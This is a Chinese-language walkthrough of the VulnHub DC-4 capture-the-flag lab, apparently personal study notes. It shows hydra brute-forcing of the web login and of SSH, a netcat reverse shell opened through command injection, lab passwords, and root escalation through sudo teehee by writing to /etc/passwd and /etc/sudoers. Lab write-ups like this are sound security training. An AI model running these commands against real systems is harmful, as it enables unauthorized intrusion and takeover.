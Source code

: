 # DC4
- [参考](https://blog.csdn.net/Auuuuuuuu/article/details/100059696)

- [学习](https://www.vulnhub.com/entry/dc-4,313/)

- [下载](http://www.five86.com/downloads/DC-4.zip)


## 扫描

` nmap -sP 192.168.31.0/24  `

![](img/1.png)

继续扫描目标靶机

```
 nmap -sT -sV -T5 -A -p- 192.168.31.54
```
![](img/2.png)

发现打开ssh和80 先访问80试试看

![](img/3.png)

## 初探

账号为admin，没有验证码，尝试弱口令爆破 使用kali自带的字典先试试
在/usr/share/wordlists/目录下 记得先解压
```
hydra -l admin -P /usr/share/wordlists/rockyou.txt 192.168.31.54 http-post-form "/login.php:username=^USER^&password=^PASS^:S=logout" -F
```

![](img/4.png)

爆破得到密码 happy，登陆

随便点点发现

![](img/5.png)

可以执行命令，尝试一下写个回弹

```
nc+-e+-nv+/bin/bash+192.168.31.243+4545
```
![](img/6.png)


继续，使用python获取交互模式
```
python -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
```
先fand一下flag 发现啥都没有，忽然灵光乍泄想起来还有个ssh没用上 试试看 find 密码
```
find $password
```
![](img/7.png)


得到用户 jim 密码 jibril04

```
hydra -L 1.txt -P old-passwd.txt  -t 6 ssh://192.168.31.54
```

SSH登陆

```
ssh jim@192.168.31.54
yes
jibril04
```

登陆提示 `邮件`

![](img/8.png)

找到mail

在/var/mail/下得到charles的密码 ^xHhA&hvim0y

![](img/9.png)

切换为charles

```
ssh charles@192.168.31.54
yes
^xHhA&hvim0y
```

![](img/10.png)


sudo -l查看权限，发现可以不需要密码执行teehee（root权限），teehee可以来向其他文件写入内容


![](img/11.png)

## 利用teehee提权

1 通过teehee的sudo提升权限以 root身份写入crontab计划任务通过执行获取root权限

> 设置uid和gid都为0，那么这个用户就相当于root


![](img/14.png)

---

2 通过添加用户到passwd，设置其权限，之后su 访问即可获得root

```
echo "test::0:0:::/bin/sh" | sudo teehee -a /etc/passwd
```
```
echo "charles ALL=(ALL:ALL) ALL" | sudo teehee /etc/sudoers
sudo -l
sudo su
```

![](img/12.png)




![](img/13.png)


## 总结

该靶场大致要点为： 
- web的爆破和命令执行
- SSH爆破
- 利用 teehee 提权

更新笔记：
- 提权骚操作

添加笔记：
- SSH爆破指北


